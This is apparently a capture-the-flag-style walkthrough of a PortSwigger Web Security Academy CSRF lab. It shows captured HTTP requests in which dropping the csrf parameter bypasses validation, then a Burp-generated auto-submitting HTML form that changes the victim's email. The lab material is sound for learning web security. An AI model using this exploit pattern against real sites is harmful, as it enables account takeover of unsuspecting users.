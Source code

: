 # Lab: CSRF where token validation depends on token being present

- I can see a `email changing` functionality.

![](Vulnerabilities/CSRF/img/lab-3-1.png)

- But there is a defense mechanism for `CSRF` that is using a `CSRF` token.

```
POST /my-account/change-email HTTP/1.1
Host: ac5c1fc61e4f8f96c071567f00fd005e.web-security-academy.net
Cookie: session=os82B8DXQYh1hAsEelTD9Nmd8Ez1bwKJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://ac5c1fc61e4f8f96c071567f00fd005e.web-security-academy.net
Referer: https://ac5c1fc61e4f8f96c071567f00fd005e.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

email=test%40test.com&csrf=Tz4NMBVlik25M8idDFuZDc4KyJUwo87o
```

- When I completely remove the `csrf` parameter, I can bypass the protection mechanism.

```
POST /my-account/change-email HTTP/1.1
Host: ac5c1fc61e4f8f96c071567f00fd005e.web-security-academy.net
Cookie: session=os82B8DXQYh1hAsEelTD9Nmd8Ez1bwKJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: https://ac5c1fc61e4f8f96c071567f00fd005e.web-security-academy.net
Referer: https://ac5c1fc61e4f8f96c071567f00fd005e.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

email=test1%40test.com
```

```
HTTP/1.1 302 Found
Location: /my-account
Connection: close
Content-Length: 0
```

- Exploit `html` - 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac5c1fc61e4f8f96c071567f00fd005e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

